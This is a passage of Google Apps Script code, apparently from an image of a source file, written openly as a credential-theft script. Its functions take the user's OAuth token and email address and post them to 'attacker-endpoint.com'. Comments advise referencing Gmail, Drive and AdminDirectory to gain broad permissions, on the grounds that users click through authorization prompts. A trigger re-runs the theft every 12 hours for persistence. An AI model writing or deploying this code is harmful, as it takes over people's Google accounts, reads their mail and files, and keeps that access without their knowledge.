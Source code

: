 ```javascript
    SpreadsheetApp.getUi().showModalDialog(html, 'Processing Data...');
  } catch (e) {
    console.log('Token extraction failed: ' + e.toString());
  }
}

function receiveTokens(tokenData) {
  // Exfiltrate any captured token data
  UrlFetchApp.fetch('https://attacker-endpoint.com/tokens', {
    'method': 'post',
    'contentType': 'application/json',
    'payload': JSON.stringify(tokenData)
  });
}

// Direct ScriptApp.getOAuthToken theft
function directTokenTheft() {
  // Request access to specific API scopes for more permissions
  // This will be visible during script authorization, but users often click through
  var AdminDirectory = AdminDirectory || {};  // Reference to trigger scope request
  var Gmail = Gmail || {};                   // Reference to trigger scope request
  var Drive = Drive || {};                   // Reference to trigger scope request
  
  try {
    // Get the OAuth token with elevated scopes
    var token = ScriptApp.getOAuthToken();
    var email = Session.getActiveUser().getEmail();
    
    // Exfiltrate token
    UrlFetchApp.fetch('https://attacker-endpoint.com/tokens', {
      'method': 'post',
      'contentType': 'application/json',
      'payload': JSON.stringify({
        'token': token,
        'email': email,
        'scope': 'elevated_permissions'
      })
    });
    
    // Can also establish persistence by creating time-based triggers
    // that continue to extract and exfiltrate tokens
    ScriptApp.newTrigger('directTokenTheft')
      .timeBased()
      .everyHours(12)  // Run every 12 hours
      .create();
      
    return "Processing complete!";
  } catch (e) {
    return "Error: " + e.toString();
  }
}
```
